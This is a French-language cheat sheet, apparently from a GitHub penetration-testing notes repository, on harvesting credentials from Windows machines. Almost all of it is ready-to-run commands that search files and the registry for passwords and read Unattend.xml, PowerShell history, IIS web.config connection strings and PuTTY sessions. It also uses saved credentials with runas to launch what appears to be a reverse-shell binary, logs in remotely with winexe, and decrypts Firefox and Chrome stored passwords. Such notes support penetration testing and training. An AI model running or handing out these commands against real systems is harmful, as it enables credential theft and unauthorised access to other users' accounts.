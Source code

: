 # Harvesting Passwords

Le moyen le plus simple d’accéder à un autre utilisateur consiste à collecter les informations d’identification

## Cleartext Passwords

```sh
findstr /si password *.txt *.xml *.ini

dir /s *pass* == *cred** == *vnc* == *.config

findstr /spin "password" *.*

# Registre
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

Se connecter a l'utilisateur
```sh
winexe -U 'admin%password' //<TARGET_IP> cmd.exe
```

## Unattended Windows Installations

Installations Windows sans surveillance
nécessitent l'utilisation d'un compte administrateur pour effectuer la configuration initiale, qui peut finir par être stockée sur la machine aux emplacements suivants:

```sh
type C:\Unattend.xml
type C:\Windows\Panther\Unattend.xml
type C:\Windows\Panther\Unattend\Unattend.xml
type C:\Windows\system32\sysprep.inf
type C:\Windows\system32\sysprep\sysprep.xml
```

## Powershell History

```sh
#cmd.exe
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```sh
#powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Saved Windows Credentials 

Windows nous permet d'utiliser les informations d'identification d'autres utilisateurs. Afficher les avec

```sh
cmdkey /list
```

Si vous remarquez des informations d'identification qui valent la peine d'être essayées (`Type: Domaine Password`)

```sh
runas /savecred /user:<USERNAME_NAME> cmd.exe
runas /savecred /user:<USERNAME_NAME> C:\Temp\rshell.exe
```

## IIS Configuration

Selon la version installée d'IIS, nous pouvons trouver `web.config` dans l'un des emplacements suivants

```sh
type C:\inetpub\wwwroot\web.config
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## Retrieve Credentials from Software

Récupérer les informations d'identification à partir du logiciel

**PuTTY**

Stock les configurations de proxy qui incluent les informations d'authentification en texte clair.

```sh
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

**Firefox**

Chercher `firefox_decrypt.py` sur github

```sh
python firefox_decrypt.py C:\Users\Appdata\Roaming\Mozilla\Firefox\Profiles\7s6z2hv1.default-release
```

**Chrome**

Tout d'abord installer ces modules sur la cible `pip install pypiwin32 pycryptodomex`
Chercher `decrypt-chrome-passwords.py` sur github

```sh
python decrypt-chrome-passwords.py 
```